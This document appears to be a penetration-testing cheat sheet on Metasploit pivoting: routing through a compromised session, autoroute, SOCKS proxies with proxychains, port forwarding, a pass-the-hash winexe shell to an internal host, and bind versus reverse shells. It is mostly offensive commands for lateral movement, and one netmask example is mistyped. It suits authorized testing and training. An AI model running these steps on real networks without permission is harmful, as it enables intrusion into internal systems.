 # ⭕ Metasploit Pivoting

### MANUAL ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

### AUTO ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### PROXY

add a proxy to proxychains.conf and use it inside and outside of metasploit

```
use auxiliary/server/socks4a
use auxiliary/server/socks5
use auxiliary/server/socks_unc
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### PORT FORWARD

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### PIVOTING BIND SHELL

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

### PIVOTING REVERSE SHELL

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
